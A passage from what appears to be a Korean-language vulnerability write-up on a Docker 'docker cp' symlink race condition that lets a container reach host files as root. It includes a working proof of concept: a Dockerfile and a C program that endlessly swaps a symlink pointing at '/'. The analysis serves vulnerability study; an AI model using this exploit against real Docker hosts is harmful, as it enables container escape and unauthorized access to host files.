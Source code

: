  당연히 이러한 과정에서 인자나 리턴값이나 도커 내부에 링크를 가리키니 문제가 될 것이 없어보인다. <span style="color:orange">하지만 여기서 취약점이 발생을 하게 되고 그래서 Race condition 취약점이 단편적인 분석으로는 쉽게 발견하기가 어렵다. </span>

이 함수를 이용한 도커의 실행과정에서 주목할 점이 있는데, `FollowSymlinkInScope`함수로 경로를 구하고, <span style="color:orange">잠시 뒤에</span> 구한 경로를 작업에 사용한다는 점이다. 

이 <span style="color:orange">"잠시"의 타이밍</span>에 로컬에 위치한 파일을 가리키는 경로로 심볼릭 링크를 걸어준다면 도커는 루트 권한으로 작동을 하기 때문에 컨테이너를 벗어나 호스트의 파일에 접근이 되는 레이스 컨디션 공격이 가능하다.



<h3>0x3. Proof of Concept</h3>

익스를 하기 전에 알고있어야 할 명령어가 있다. 

<h4>Base - Docker cp</h4>

도커에는 `docker cp`라는 명령어가 존재한다. 이는, 도커 컨테이너와 로컬 간의 파일에 대한 복사를 수행해주는 명령어이다. 간단한 예를 들자면 아래와 같이 사용한다.

``` dockerfile
# Container -> Local 
docker cp [OPTIONS] CONTAINER:SRC_PATH DEST_PATH|

# Local -> Container
docker cp [OPTIONS] SRC_PATH| CONTAINER:DEST_PATH
```

이 명령어를 수행할 때 실제로는 `CONTAINER:SRC_PATH`의 절대주소가 `DEST_PATH`로 복사되고 반대로 복사할 때도 마찬가지이다.  
단 이때 도커는 기본적으로 루트 권한으로 동작하기 때문에 `docker cp`명령어가 파일을 복사할 때 역시 <span style="color:orange">루트 권한으로 진행된다. </span>



<h4>Setting</h4>

이제는 익스플로잇을 위한 환경 세팅을 해보자.  우선 실습을 진행할 도커파일이 필요하다. 

```dockerfile
#우분투 18.04 기반 이미지 
FROM ubuntu:18.04  
# 이미지 구성
RUN apt-get update && apt-get install -y gcc 
# DockerFile과 같은 dir에 있는 symlink_swap.c를 컨테이너에 복사
COPY symlink_swap.c /symlink_swap.c 
# 컨테이너 내부의 symlink_swap.c를 컴파일
RUN gcc -o /symlink_swap /symlink_swap.c
# Entrypoint를 symlink_swap으로 설정
ENTRYPOINT ["/symlink_swap"]
```

다음으로 취약한 코드인 `symlink_swap.c`를 아래와 같이 만들자. 

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/stat.h>
#include <stdio.h>
#include <fcntl.h>

int main()
{
	symlink("/", "/totally_safe_path"); // root dir에 /totally_safe_path를 심볼릭 링크 연결
	mkdir("/totally_safe_path-stashed", 0755); //dir 생성

	while (1) //계속 반복
		renameat2(AT_FDCWD, "/totally_safe_path", AT_FDCWD, "/totally_safe_path-stashed", RENAME_EXCHANGE);// 이름교환

	return 0;
}
```
